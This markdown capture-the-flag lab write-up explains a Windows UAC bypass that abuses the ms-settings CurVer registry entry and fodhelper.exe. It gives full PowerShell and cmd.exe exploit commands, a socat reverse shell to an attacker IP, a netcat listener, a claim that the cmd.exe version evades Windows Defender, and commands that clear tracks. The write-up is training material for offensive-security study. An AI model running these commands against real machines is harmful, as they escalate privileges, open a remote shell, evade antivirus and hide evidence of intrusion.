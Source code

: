 # Fodhelper-curver exploit

Now Defender is enabled and it detects [the fodhelper exploit attempt](autoelevate.md).

A variation on the fodhelper exploit was proposed by 
[V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-`UAC`-bypasses), where different 
registry keys are used, but the basic principle is the same.

Instead of writing the payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, use the `CurVer` entry 
under a `progID` registry key. This entry is used when you have multiple instances of an application with different 
versions running on the same system. CurVer allows for pointing to the default version of the application to be used 
by Windows when opening a given file type.

Create an entry on the registry for a new `progID` (any name will do) and then point the CurVer entry in the 
ms-settings `progID` to the newly created `progID`. This way, when `fodhelper` tries opening a file using the 
ms-settings `progID`, it will notice the CurVer entry pointing to the new `progID` and check it to see what command 
to use.

The exploit code proposed by @V3ded uses Powershell to achieve this end. A modified version of it, adapted for using 
reverse shell:

```text
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

This exploit creates a new `progID` with the name `.pwn` and associates the payload to the command used when opening 
such files and points the CurVer entry of ms-settings to the `.pwn` `progID`. When `fodhelper` tries opening an 
ms-settings program, it will instead be pointed to the `.pwn` `progID` and use its associated command.

This technique is more likely to evade Windows Defender because we have more liberty on where to put the payload, 
as the name of the `progID` that holds our payload is entirely arbitrary. 

## Lab

Start a new reverse shell on the attacker machine:

    nc -lvp 4445

And execute the exploit from the backdoor connection. Windows Defender will throw another fit that references the 
actions taken. The detection methods used by AV software are implemented strictly against the published exploit, 
without considering possible variations. If we translate our exploit from Powershell to use `cmd.exe`, the AV won't 
raise any alerts.

```text
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

In the high integrity reverse shell, get the flag:

```text
$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288

C:\> C:\flags\GetFlag-fodhelper-curver.exe
```

Clear tracks:

```text
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
